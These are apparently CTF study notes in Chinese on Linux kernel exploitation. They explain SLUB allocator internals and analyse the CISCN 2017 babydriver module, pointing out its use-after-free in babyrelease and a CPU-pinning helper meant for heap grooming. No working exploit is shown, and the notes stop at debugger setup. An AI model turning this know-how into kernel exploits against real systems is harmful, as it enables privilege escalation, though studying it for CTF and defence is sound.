
# 参考资料
[https://arttnba3.cn/2021/02/21/OS-0X01-LINUX-KERNEL-PART-II/](https://arttnba3.cn/2021/02/21/OS-0X01-LINUX-KERNEL-PART-II/)
[https://bbs.kanxue.com/thread-276403.htm#msg_header_h1_2](https://bbs.kanxue.com/thread-276403.htm#msg_header_h1_2)

[https://kiprey.github.io/2021/10/kernel_pwn_introduction/#d-%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90](https://kiprey.github.io/2021/10/kernel_pwn_introduction/#d-%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90)
# slub 分配器

这篇博客讲得很不错：[https://www.cnblogs.com/LoyenWang/p/11922887.html](https://www.cnblogs.com/LoyenWang/p/11922887.html)

一个 kmem_cache = 一类大小相同的对象
一个 slub cache = 多个 slub page = 很多个大小相同的对象
一个 slub page = 2^n 个物理页 = 多个大小相同的对象




## kmem_cache_cpu 
void **freelist：指向下一个可分配对象的指针。在 SLAB 分配器中，对象被释放时不会立即归还给全局内存池，而是被链接进这个空闲链表。这样，当再次需要分配对象时，可以从这个链表中快速取出，提高分配速度。

struct page *page：该指针指向当前正在从中分配对象的 SLAB page。这个成员记录当前分配活动所针对的具体 SLAB page（指向当前正在使用的 SLAB page 的指针。这个 page 上的一些对象可能已经被分配，另一些可能仍是空闲的。）

struct page *partial：指向一个部分分配的 SLAB page。部分分配的 SLAB 意味着该 SLAB 中还有一些未使用的对象。

对 SLAB page 进行“冻结（freezing）”是一种管理策略：当该 page 中部分对象已被分配而部分仍未使用时，该 SLAB page 会被标记为非活跃状态，不再作为常规分配的首选来源。这种情况通常发生在尝试将 SLAB page 中的空闲对象迁移到 CPU 本地 freelist（空闲链表）失败之后——也就是发现该 SLAB page 实际上已经没有可迁移的空闲对象了。
## kmem_cache_node[ ]
struct list_head partial：这是一个用于链接部分分配的 SLAB page 的链表头。每个部分分配的 SLAB page 通过自身的 list_head 结构体成员挂到这个链表上，便于管理并快速找到可用的 SLAB page。


## 冻结与解冻

1. **Frozen（冻结）**：当一个 SLAB page 被标记为“冻结”时，意味着尽管该 SLAB 中仍有未分配的对象，出于性能优化或其他管理目的，暂时不希望再从这个 SLAB 中分配新对象。这种状态通常用于降低分配时的搜索成本或避免过度碎片化。例如，如果一个 SLAB page 中的大多数对象都已被分配，仅剩少量空闲对象，将其冻结可以降低检查它的频率，因为分配新对象时优先选择完全空闲的 SLAB 效率更高。

   - 对于 `cpu1` 的 `kmem_cache_cpu`，如果它的 SLAB 被冻结，`cpu1` 仍然可以从该 SLAB 中取出对象（如果有的话）或归还对象给它，因为这是它的私有资源。但是其他 CPU 核心（比如 `cpu2`）无法从这个已冻结的 SLAB 中取出对象，它们只能把对象归还给它（如果它们之前是从该 SLAB 中获得的对象）。

2. **Unfrozen（解冻）**：相反，处于“解冻”状态的 SLAB page 完全参与分配过程，只要遵循相应的访问规则，任何 CPU 核心都可以从其中分配对象。在 SLUB 分配器中，CPU 本地 partial 链表上的 SLAB 通常是 frozen 状态，而 Node 级 partial 链表上的 SLAB 则是 unfrozen 状态，因为 Node 级的 SLAB 是所有 CPU 共享的资源，需要保持高可用性。

3. **用完 kmem_cache_cpu 的 slab 中的对象后解冻该 slab**：这意味着当某个 CPU 核心（比如 `cpu1`）的 `kmem_cache_cpu` 所对应 SLAB page 中的所有对象都已分配完，并且还需要新对象时，之前被冻结的 SLAB 可能会被“解冻”。这是因为随着分配压力增大，即使剩余对象很少的 SLAB 也变得有价值，可以被重新激活来提供分配服务，以缓解内存分配压力。

## 分配
1. 检查 per-CPU 缓存的 freelist 中的第一个对象；如果没有，进入第 2 步
2. 把 per-CPU 缓存中 page 所指向的 slab page 里的空闲对象迁移到 freelist 中；如果没有空闲对象，进入第 3 步
3. 将 per-CPU 缓存的 partial 链表中的第一个 slab page 迁移到 page 指针；如果 partial 链表为空，进入第 4 步
4. 从 Node 管理的 partial 链表中迁移一个 slab page 到 per-CPU 缓存的 page，并再迁移第二个 slab page 加入 per-CPU 缓存的 partial 链表；如果每个 Node 的 partial 链表都为空，进入第 5 步
5. 从 Buddy System 中获取页面并加入 per-CPU 的 page。

## 释放
1. 直接将对象归还给 freelist；该 page 变为空闲
2. 将该 page 放到 per-CPU 管理的 partial 链表上；per-CPU 管理的 partial 链表中的 slab page 会被加入到 Node 管理的 partial 链表的尾部
3. 如果 slab page 完全空闲，则将该 slab page 从 Node 的 partial 链表中移除，并归还给 buddy system
# fork 
用一个具体的 C 语言示例来解释 `fork()` 的工作原理，以及子进程从哪里开始执行：

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    pid_t pid = fork(); // 调用fork创建子进程

    if (pid < 0) {
        perror("Fork failed");
        return 1;
    }

    if (pid == 0) { // 这是子进程
        printf("这是子进程，PID: %u，从这里开始执行。\n", getpid());
        sleep(1); // 让子进程暂停1秒，以便观察
        printf("子进程执行完成。\n");
    } else { // 这是父进程
        printf("这是父进程，PID: %u，fork后立即从这里继续执行。\n", getpid());
        wait(NULL); // 父进程等待子进程结束
        printf("父进程检测到子进程结束。\n");
    }

    return 0;
}
```

在这个例子中，当程序执行 `fork()` 调用时，操作系统会创建一个与当前进程几乎完全相同的子进程。之后，父进程和子进程都会继续执行 `fork()` 调用之后的代码，但会根据 `fork()` 的返回值走向不同的执行路径。

- **父进程**：`fork()` 返回子进程的 PID，所以它执行 `pid > 0` 分支，打印父进程的 PID 并等待子进程结束。
- **子进程**：`fork()` 在子进程中返回 0，所以它执行 `pid == 0` 分支，打印“这是子进程”的消息，然后暂停一秒，接着打印“子进程执行完成”。

所以子进程实际上是从 `fork()` 调用点开始执行程序的一份拷贝的，但它会根据 `fork()` 的返回值跳转到特定的代码路径。这使得父进程和子进程能够执行不同的逻辑，协同完成复杂的任务。

# CPU 绑定
确保同一大小类别的分配对象来自同一个 kmem_cache_cpu
例如，把某个对象释放进 1 号 kmem_cache_cpu 的 freelist 之后，希望下次分配时能再拿到这个刚释放的对象；如果此时处于不同的 CPU 上，就拿不回来了

```c
#define _GNU_SOURCE
#include <sched.h>

/* to run the exp on the specific core only */
void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}
```
# Kmalloc 标志与 slub 隔离
对于编译时开启了 CONFIG_MEMCG_KMEM 选项（通常默认开启）的内核，会为使用 GFP_KERNEL_ACCOUNT 分配的通用对象单独创建一套名为 kmalloc-cg-* 的 kmem_cache，从而使用这两种标志的对象之间产生隔离

创建 kmem_cache 时，如果已经存在可以分配相等/相近大小对象的 kmem_cache，则不会创建新的 kmem_cache，而是为已有的 kmem_cache 建立一个别名，并将其作为“新”的 kmem_cache 返回

对于初始化时设置了 SLAB_ACCOUNT 标志的 kmem_cache，会创建一个新的 kmem_cache，而不是为已有的建立别名
# CISCN - 2017 - babydriver
不知道为什么，没有题目配合地学东西总感觉很难受

```c
-cpu kvm64,+smep
```
开启 SMEP 是为了防止用户态（Ring 3）内存页中的代码在 Ring 0（最高特权级，通常是操作系统内核态）中被执行。
直接来看加载驱动的源码
# 检查

# babtdriver_init
1. 分配一个设备号
2. 初始化设备结构体
3. 把设备添加到内核的设备列表中
4. 创建设备类和设备实例


## struct cdev
```c
struct cdev { // 结构体cdev的定义，大小为0x68字节
    kobject kobj;            // 0x00: 内嵌的kobject结构体。kobject是Linux内核对象的基础结构，用于管理内核对象的引用计数、命名空间、事件通知等通用对象管理功能。
    module *owner;           // 0x40: 指向拥有该字符设备的模块结构体指针。在设备驱动程序中，通常指向`_this_module`，表明哪个内核模块创建了这个设备。
    const file_operations *ops; // 0x48: 指向file_operations结构体的指针，定义了设备可以支持的各种文件操作方法，如打开(open)、读(read)、写(write)、关闭(close)等。
    list_head list;          // 0x50: 内嵌的list_head结构体，用于将cdev结构体链接到内核的链表中，便于内核管理所有注册的字符设备。
    dev_t dev;              // 0x60: 设备号，由主设备号(major number)和次设备号(minor number)组成，唯一标识一个设备。
    unsigned int count;       // 0x64: 引用计数，表示有多少打开的文件描述符指向此设备。当count为0时，表示设备未被使用，可以被卸载或删除。
};                          // 结构体结束
```

这个结构体是字符设备驱动与内核之间的重要桥梁。通过它，驱动可以注册设备、定义设备行为（通过 file_operations）、管理设备状态等等。在内核中，这个结构体通过 `cdev_init` 函数初始化，再通过 `cdev_add` 函数添加到内核的字符设备列表中以生效。当不再需要该设备时，可以通过 `cdev_del` 函数将其从内核中注销。
## `alloc_chrdev_region`
`alloc_chrdev_region` 是一个 Linux 内核函数，用于动态分配一个或一组连续的字符设备号（主设备号），并注册这些设备号与设备名称之间的映射关系。这个函数是字符设备驱动开发者在初始化设备驱动时常用的重要步骤。下面详细解释一下这次函数调用：

```c
alloc_chrdev_region(&babydev_no, 0LL, 1LL, "babydev")
```

- **`&babydev_no`**：这是一个指针，用于接收分配到的字符设备主设备号。调用成功后，`babydev_no` 会保存分配给设备的第一个主设备号。

- **`0LL`**：这个参数表示起始次设备号偏移。这里设为 0 意味着从次设备号 0 开始分配。在很多情况下，对于只需要一个设备号的设备，这个值通常是 0。

- **`1LL`**：表示要分配的设备号数量。这里请求了 1 个连续的设备号。如果驱动需要管理多个不同类型的设备，可能需要分配更多的设备号。

- **`"babydev"`**：一个字符串参数，表示设备的名称。这个名称会显示在 `/proc/devices` 文件中用来标识设备类型；它是给系统管理员和开发者看的一个友好的设备标识。

这次函数调用的目的是请求内核分配一个与设备名称“babydev”关联的新字符设备号。分配成功后，这个设备号就可以用来创建和操作设备文件，实现与设备的通信。如果分配成功，`babydev_no` 变量会保存分配到的主设备号；如果分配失败（例如没有足够的可用设备号），函数会返回一个负的错误码。
## cdev_init
这段代码展示了 Linux 内核字符设备驱动中常见的三个函数调用，用于初始化字符设备、设置其所属模块，以及将设备注册到内核。下面详细解释每个调用：

 **cdev_init(&cdev_0, &fops);**

   - **`cdev_init`**：这是内核提供的函数，用于初始化字符设备控制结构体（`struct cdev`）。它主要负责设置字符设备的默认属性，并关联文件操作函数集。
   - **`&cdev_0`**：这是指向待初始化字符设备控制结构体的指针。`cdev_0` 是表示你正在创建的字符设备的 `struct cdev` 局部或全局实例。
   - **`&fops`**：这是指向 `file_operations` 结构体的指针。`file_operations` 结构体包含与设备文件相关的所有操作的函数指针，比如打开设备（`open`）、读取（`read`）、写入（`write`）、关闭（`release`）等。通过传入这个指针，你就定义了设备如何响应这些操作。

```c
00000000 struct cdev // sizeof=0x68
00000000 {                                       // XREF: .bss:cdev_0/r
00000000     kobject kobj;
00000040     module *owner;                      // XREF: babydriver_init+5E/w
00000048     const file_operations *ops;
00000050     list_head list;
00000060     dev_t dev;
00000064     unsigned int count;
00000068 };
```


## owner 

 **cdev_0.owner = &_this_module;**

   - 这一行将字符设备结构体 `cdev_0` 的 `.owner` 成员设置为当前模块的指针（`_this_module`）。`_this_module` 是指向当前正在运行的内核模块自身的全局变量。这个操作明确了哪个模块负责这个字符设备，这对日志记录、资源管理以及模块卸载时的清理工作都至关重要。




```c
00000000 struct module // sizeof=0x340
00000000 {                                       // XREF: .gnu.linkonce.this_module:__this_module/r
00000000     module_state state;
00000004     // padding byte
00000005     // padding byte
00000006     // padding byte
00000007     // padding byte
00000008     list_head list;
00000018     char name[56];
00000050     module_kobject mkobj;
000000B0     module_attribute *modinfo_attrs;
000000B8     const char *version;
000000C0     const char *srcversion;
000000C8     kobject *holders_dir;
000000D0     const kernel_symbol *syms;
000000D8     const unsigned __int64 *crcs;
000000E0     unsigned int num_syms;
000000E4     // padding byte
000000E5     // padding byte
000000E6     // padding byte
000000E7     // padding byte
000000E8     mutex param_lock;
00000110     kernel_param *kp;
00000118     unsigned int num_kp;
0000011C     unsigned int num_gpl_syms;
00000120     const kernel_symbol *gpl_syms;
00000128     const unsigned __int64 *gpl_crcs;
00000130     const kernel_symbol *unused_syms;
00000138     const unsigned __int64 *unused_crcs;
00000140     unsigned int num_unused_syms;
00000144     unsigned int num_unused_gpl_syms;
00000148     const kernel_symbol *unused_gpl_syms;
00000150     const unsigned __int64 *unused_gpl_crcs;
00000158     bool sig_ok;
00000159     bool async_probe_requested;
0000015A     // padding byte
0000015B     // padding byte
0000015C     // padding byte
0000015D     // padding byte
0000015E     // padding byte
0000015F     // padding byte
00000160     const kernel_symbol *gpl_future_syms;
00000168     const unsigned __int64 *gpl_future_crcs;
00000170     unsigned int num_gpl_future_syms;
00000174     unsigned int num_exentries;
00000178     exception_table_entry *extable;
00000180     int (*init)(void);
00000188     // padding byte
00000189     // padding byte
0000018A     // padding byte
0000018B     // padding byte
0000018C     // padding byte
0000018D     // padding byte
0000018E     // padding byte
0000018F     // padding byte
00000190     // padding byte
00000191     // padding byte
00000192     // padding byte
00000193     // padding byte
00000194     // padding byte
00000195     // padding byte
00000196     // padding byte
00000197     // padding byte
00000198     // padding byte
00000199     // padding byte
0000019A     // padding byte
0000019B     // padding byte
0000019C     // padding byte
0000019D     // padding byte
0000019E     // padding byte
0000019F     // padding byte
000001A0     // padding byte
000001A1     // padding byte
000001A2     // padding byte
000001A3     // padding byte
000001A4     // padding byte
000001A5     // padding byte
000001A6     // padding byte
000001A7     // padding byte
000001A8     // padding byte
000001A9     // padding byte
000001AA     // padding byte
000001AB     // padding byte
000001AC     // padding byte
000001AD     // padding byte
000001AE     // padding byte
000001AF     // padding byte
000001B0     // padding byte
000001B1     // padding byte
000001B2     // padding byte
000001B3     // padding byte
000001B4     // padding byte
000001B5     // padding byte
000001B6     // padding byte
000001B7     // padding byte
000001B8     // padding byte
000001B9     // padding byte
000001BA     // padding byte
000001BB     // padding byte
000001BC     // padding byte
000001BD     // padding byte
000001BE     // padding byte
000001BF     // padding byte
000001C0     void *module_init;
000001C8     void *module_core;
000001D0     unsigned int init_size;
000001D4     unsigned int core_size;
000001D8     unsigned int init_text_size;
000001DC     unsigned int core_text_size;
000001E0     mod_tree_node mtn_core;
00000218     mod_tree_node mtn_init;
00000250     unsigned int init_ro_size;
00000254     unsigned int core_ro_size;
00000258     unsigned int taints;
0000025C     unsigned int num_bugs;
00000260     list_head bug_list;
00000270     bug_entry *bug_table;
00000278     mod_kallsyms *kallsyms;
00000280     mod_kallsyms core_kallsyms;
00000298     module_sect_attrs *sect_attrs;
000002A0     module_notes_attrs *notes_attrs;
000002A8     char *args;
000002B0     void *percpu;
000002B8     unsigned int percpu_size;
000002BC     unsigned int num_tracepoints;
000002C0     tracepoint *const *tracepoints_ptrs;
000002C8     jump_entry *jump_entries;
000002D0     unsigned int num_jump_entries;
000002D4     unsigned int num_trace_bprintk_fmt;
000002D8     const char **trace_bprintk_fmt_start;
000002E0     trace_event_call **trace_events;
000002E8     unsigned int num_trace_events;
000002EC     // padding byte
000002ED     // padding byte
000002EE     // padding byte
000002EF     // padding byte
000002F0     trace_enum_map **trace_enums;
000002F8     unsigned int num_trace_enums;
000002FC     unsigned int num_ftrace_callsites;
00000300     unsigned __int64 *ftrace_callsites;
00000308     bool klp_alive;
00000309     // padding byte
0000030A     // padding byte
0000030B     // padding byte
0000030C     // padding byte
0000030D     // padding byte
0000030E     // padding byte
0000030F     // padding byte
00000310     list_head source_list;
00000320     list_head target_list;
00000330     void (*exit)(void);
00000338     atomic_t refcnt;
0000033C     // padding byte
0000033D     // padding byte
0000033E     // padding byte
0000033F     // padding byte
00000340 };
```


## cdev_add
`v1 = cdev_add(&cdev_0, babydev_no, 1LL);` is a typical function call in Linux kernel programming, used to register a character device with the kernel.

- **cdev_add**: This is a kernel API function used to register a character device with the kernel. It makes the device recognizable to the system and allows user space to interact with it through the filesystem interface.

- `&cdev_0`: This is a pointer to a `struct cdev` structure, which contains the necessary information for the character device, such as the device operation function set (file_operations), the device number, and so on. In the previous initialization process, the `cdev_init` function already set this information, so it is now passed by pointer to `cdev_add` for registration.

- `babydev_no`: This is a `dev_t` type variable representing the device number. In the previous code snippet, a device number was allocated for the device via the `alloc_chrdev_region` function, where `babydev_no` is the allocated major number. The device number is the key that uniquely identifies a device in the kernel; it is divided into a major number and a minor number, and only the major number is used here.

- `1LL`: This parameter indicates the number of minor numbers to register. Passing `1LL` (i.e., 1) here means registering one minor number. In some cases, one major number can correspond to multiple logical devices, each distinguished by a different minor number.


##  _class_create


- **`(class *)`**: A type cast, indicating that the assignment will be interpreted as a pointer to a `class` structure.

- `_class_create`: This is a kernel function used to create a device class (a class of character devices or block devices). It is part of the device model and is used to organize and manage devices of the same type. It allows a class of devices to share the same attributes and behavior.

- `&_this_module`: Passes the pointer of the current module, indicating which kernel module the created device class belongs to. `_this_module` is a global variable that a kernel module uses to reference itself; every module has such a variable pointing to itself.

- `"babydev"`: The name of the device class, a string used to identify this class. In the system, especially when viewed from user space via sysfs (such as under the `/sysfs/class/` directory), this class name can be seen.

- `&babydev_no`: The major device number

```c
00000000 struct class // sizeof=0x78
00000000 {
00000000     const char *name;
00000008     module *owner;
00000010     class_attribute *class_attrs;
00000018     const attribute_group **dev_groups;
00000020     kobject *dev_kobj;
00000028     int (*dev_uevent)(device *, kobj_uevent_env *);
00000030     char *(*devnode)(device *, umode_t *);
00000038     void (*class_release)(class *);
00000040     void (*dev_release)(device *);
00000048     int (*suspend)(device *, pm_message_t);
00000050     int (*resume)(device *);
00000058     const kobj_ns_type_operations *ns_type;
00000060     const void *(*namespace)(device *);
00000068     const dev_pm_ops *pm;
00000070     subsys_private *p;
00000078 };
```
最初，init 函数通过调用 class_create 函数创建了一个 class 类型的类。创建出来的类会存放在 sysfs 下，可以在 /sys/class 中找到。

## device_create
`device_create()` 是 Linux 内核 API 中的一个函数，用于在设备模型中动态创建并注册一个新的设备实例。这个函数简化了设备创建相关的各种底层操作，包括 kobject 初始化、sysfs 条目创建，以及与设备类的关联。给定的函数调用示例：

```c
device_create(babyclass, 0LL, babydev_no, 0LL, "babydev");
```


1. **babyclass**：这是指向已定义的 `struct class` 实例的指针。在设备模型中，`class` 代表一类设备，定义了这些设备的共同行为和属性。

2. **0LL**：这是设备层级结构中该设备的父设备的设备号。在很多情况下，如果设备没有直接的父设备或不需要指定父设备，这个值会设为 `NULL` 或 `0`。这里 `0LL` 是一个长整型的 0，起同样的作用。

3. **babydev_no**：这是待创建设备的设备号。在 Linux 中，设备号唯一标识一个设备；它分为类型号（主设备号）和实例号（次设备号），用于区分不同类型的设备以及同一类型的不同实例。这里假设 `babydev_no` 是之前分配好的设备号。

4. **0LL**：与第二个参数类似，这是传递给设备的私有数据指针，通常用来存储设备特有的数据。这里同样用 `0LL` 表示不需要传递私有数据。

5. **"babydev"**：这是一个 C 字符串，用于指定新创建设备在 sysfs 中显示的名称。当用户通过 sysfs 查看设备时，这个名称会作为设备目录的名称出现，便于识别。


调用 device_create 函数来动态创建一个逻辑设备并初始化该新逻辑设备；同时将它与第一个参数对应的逻辑类关联起来，并把这个逻辑设备添加到 Linux 内核系统的设备驱动模型中。这样，该函数会自动在 /sys/devices/virtual 下创建一个新的逻辑设备目录，并在 /dev 目录下创建该逻辑类对应的设备文件。

# babyopen
babydev_struct 是一个全局变量
在 kmalloc_caches[6] 中分配了一个大小为 64 的对象，并更新 babydev_struct 的 device_buf 和 device_buf_len

# babyrelease
babydev_struct.device_buf 被释放，但该函数既没有把 device_buf 指针置为 NULL，也没有把 device_buf_len 置为 0。

# babyread
IDA 有点问题，直接看汇编



更正后的版本

```c
 if ( babydev_struct.device_buf_len > length )
  {
    copy_to_user(buffer, babydev_struct.device_buf, length);
    result = length;
  }
```

它检查 device_buf 不为空，然后检查读取长度是否在 device_buf 范围内，接着把 device_buf 上的内存拷贝到用户态的 buff 中

# babywrite
同样，IDA 也有点问题


```c
 if ( babydev_struct.device_buf_len > length )
  {
    copy_from_user(babydev_struct.device_buf, buffer, length);
    result = length;
  }
```
把用户态缓冲区中的数据拷贝进内核态的 device_buf


# babyioctl

先 kfree，然后重新分配；分配的大小应为 a4，然后设置 device_buf 和 device_buf_len

# 提取 vmlinux

```c
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf

```
用法
```c
# vmlinux-to-elf <input_kernel.bin> <output_kernel.elf>
vmlinux-to-elf bzImage vmlinux
```

# 调试

```c
sudo apt-get install qemu-system-x86 qemu-utils
```

解决方法
